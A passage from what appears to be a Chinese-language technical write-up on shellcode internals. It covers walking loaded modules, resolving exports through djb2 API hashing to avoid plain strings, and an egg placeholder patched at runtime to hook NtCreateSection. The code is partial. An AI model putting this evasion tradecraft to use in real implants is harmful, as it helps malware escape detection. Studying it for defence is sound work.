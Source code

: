 ```c
        return entry->DllBase;
    }
    listEntry = listEntry->Flink;
}
```

**解析导出表获取函数地址**：
```c
// 1. 解析 PE 头
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)moduleBase;
PIMAGE_NT_HEADERS ntHeaders = ...;

// 2. 获取导出表
PIMAGE_EXPORT_DIRECTORY exportTable = ...;

// 3. 遍历导出函数
PDWORD addressOfNames = ...;
for (DWORD i = 0; i < exportTable->NumberOfNames; i++) {
    char* functionName = ...;
    if (djb2(functionName) == functionHash) {
        // 找到了！返回函数地址
        return (PVOID)((ULONG_PTR)moduleBase + functionRVA);
    }
}
```

**使用哈希而不是字符串**：
```c
// 预计算的哈希值（编译时确定）
#define HASH_NTDLL 0x1edab0ed
#define HASH_NTCREATESECTION 0xe14e1b26

// djb2 哈希算法
DWORD djb2(const char* str) {
    DWORD hash = 5381;
    int c;
    while ((c = *str++)) {
        hash = ((hash << 5) + hash) + c;  // hash * 33 + c
    }
    return hash;
}
```

### 3. Egg Hunting 和 Patching

**Egg（占位符）的作用**：
- Shellcode 需要调用原始的 `NtCreateSection`
- 但编译时不知道原始字节是什么
- 所以先在代码中放一个"egg"（特殊字节序列）
- 运行时找到这个 egg，替换成实际的原始字节

**Egg 定义**（在 HookShellcode.c 中）：
```c
void originalBytes() {
    asm(
        ".byte 0xDE, 0xAD, 0xBE, 0xEF, 0x13, 0x37, 0xC0, 0xDE\n"
        ".byte 0xDE, 0xAD, 0xBE, 0xEF, 0x13, 0x37, 0xC0, 0xDE\n"
        ".byte 0xDE, 0xAD, 0xBE, 0xEF, 0x13, 0x37, 0xC0, 0xDE\n"
    );
}
```
